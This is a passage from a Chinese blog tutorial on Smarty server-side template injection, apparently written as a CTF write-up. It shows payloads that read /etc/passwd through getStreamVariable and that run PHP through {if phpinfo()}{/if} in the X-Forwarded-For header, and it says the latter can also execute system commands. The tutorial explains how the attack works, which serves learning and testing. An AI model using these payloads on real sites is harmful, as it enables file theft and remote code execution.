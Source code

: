 ![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233719367-1535357026.png)

**4.** **getstreamvariable**

```
{self::getStreamVariable("file:///etc/passwd")}
```

Smarty类的getStreamVariable方法的代码如下：



```
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```



可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法。然而使用这个payload会触发报错如下：

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820234305773-495371489.png)

可见这个旧版本Smarty的SSTI利用方式并不适用于新版本的Smarty。而且在3.1.30的Smarty版本中官方已经把该静态方法删除。 对于那些文章提到的利用 Smarty_Internal_Write_File 类的writeFile方法来写shell也由于同样的原因无法使用。

**5. {if}{/if}**

```
{if phpinfo()}{/if}
```

Smarty的 {if} 条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||*，or，&&，and，is_array()等等，如：{if is_array($array)}{/if}*

既然这样就将XFF头改为 {if phpinfo()}{/if} ：

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820234610811-341143885.png)

同样还能用来执行一些系统命令：

![img](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820234755671-2008092498.png)
